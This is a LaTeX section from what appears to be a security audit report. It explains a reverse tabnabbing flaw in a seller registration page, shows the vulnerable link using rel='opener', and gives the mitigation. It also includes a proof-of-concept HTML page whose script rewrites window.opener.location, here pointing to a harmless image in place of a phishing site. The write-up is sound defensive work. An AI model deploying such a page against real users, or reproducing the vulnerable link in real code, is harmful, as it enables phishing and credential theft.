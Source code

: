 \documentclass[]{article}
\begin{document}
\subsubsection{Reverse Tabnabbing}

\textbf{Description:} Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one. \\ 
The attack is typically possible when the source site uses a target instruction in a html link to specify a target loading location that do not replace the current location and then let the current window/tab available and does not include any of the preventative measures detailed below. \\ 
The attack is also possible for link opened via the window.open javascript function.
\\ \textbf{Vulnerable code:} In \texttt{sellerRegistration.js}:
\begin{lstlisting}
<td>{props.seller.webpage ? <Button as="a" href={props.seller.webpage} target="_blank" rel="opener">Open</Button> : "N/A"} </td>
\end{lstlisting}
\texttt{rel="opener"} allows the opened page to have a reference to the parent page. With this reference the attacker can replace the parent page with a phishing site.
\\ \textbf{Exploitation:} A seller during registration can insert a link to a web page. An attacker can exploit this by inserting a link to a page that has the code to replace the parent page. For example:
\begin{lstlisting}
<!-- This is a test page to demonstrate Reverse Tabnabbing attack -->
<html>
  <head>
    <title>Page not found</title>
    <script>
      if (window.opener) {
        window.opener.location =
          "https://upload.wikimedia.org/wikipedia/commons/2/26/You_Have_Been_Hacked%21.jpg";
      }
    </script>
  </head>
  <body>
    <h1>Page not found</h1>
    <p>
      The page you are looking for might have been removed, had its name
      changed, or is temporarily unavailable.
    </p>
    <p>Please go back where you came from :(</p>
  </body>
</html>
\end{lstlisting}
For simplicity, we chose to insert a link that redirects to an image with a message rather than a phishing page.
\\ \textbf{Mitigation:} To mitigate this vulnerability, simply use \texttt{rel="noopener"} or \texttt{rel="noreferrer"} instead of \texttt{rel="opener"}. Using \texttt{rel="noreferrer"} implicitly sets also \texttt{rel="noopener"}, so if you have chosen to use \texttt{rel="noreferrer"}, the use of \texttt{rel="noopener"} isn’t required.
\end{document}
